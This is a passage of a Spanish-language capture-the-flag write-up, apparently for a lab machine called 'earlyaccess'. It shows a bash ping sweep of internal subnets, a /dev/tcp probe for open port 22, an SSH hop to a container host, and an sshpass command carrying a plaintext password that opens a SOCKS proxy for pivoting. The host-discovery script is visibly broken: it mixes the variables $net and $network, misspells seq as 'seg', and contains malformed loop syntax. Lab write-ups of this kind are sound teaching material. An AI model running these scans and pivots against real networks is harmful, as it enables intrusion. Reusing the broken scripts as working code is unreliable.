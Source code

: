 ```bash
#!/bin/bash
networks=$(hostname -I)

for net in $\{networks[@]}; do
echo -e "\\n[+] Escaneando el puerto $net.0/22:\\n"
for i in $(seg 1 254); do
timeout 1 bash -c  "ping -c 1 $network.$i" &>/dev/null && echo -e "[+] Host: $network.$i - Open" &
done; wait
done
```

Ahora teniendo los hostname terminando en <i>.0</i> crearemos otro script para ver en cuál de ellos está el puerto 22 abierto.

```bash
#!/bin/bash
hostnames=(172.18.0.100 172.18.0.101 172.18.0.102 172.18.0.2 172.19.0.2 172.19.0.3)

for host in $\{hostnames[@]}; do
timeout 1 bash -c  "echo '' > /dev/tcp/$host/22" 2>/dev/null && echo "[+] Puerto 22 esta abierto en $host"
done

drew@earlyacccess:/tmp$ ./port22Open.sh
[+] Puerto 22 esta abierto en 172.19.0.3
```

Ahora nos conectamos por <i>ssh</i> a la <i>172.19.0.3</i>

```bash
drew@earlyacccess:~/.ssh$ ssh game-tester@172.19.0.3
```

Ahora estamos como <i>game-tester</i> con el host <i>game-server</i> tal vez en algún puerto de este
host está corriendo el servidor web para ello vemos...

```bash
game-tester@game-server:/$ ss -nltp
...
LISTEN  0   128   *:9999  *:*
...
```

de primeras no tenemos resolución a esa ruta que está en un contenedor pero podríamos ingresar
con ssh y el parámetro -D

```bash
sshpass -p "XeoNu86JTznxMCQuGHrGutF3Csq5" ssh drew@10.10.11.110 -D 1080
```

con la extensión de foxy proxy por ejemplo configuramos...

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686606076/early_foxy_proxy_tg6bm1.webp'
/>
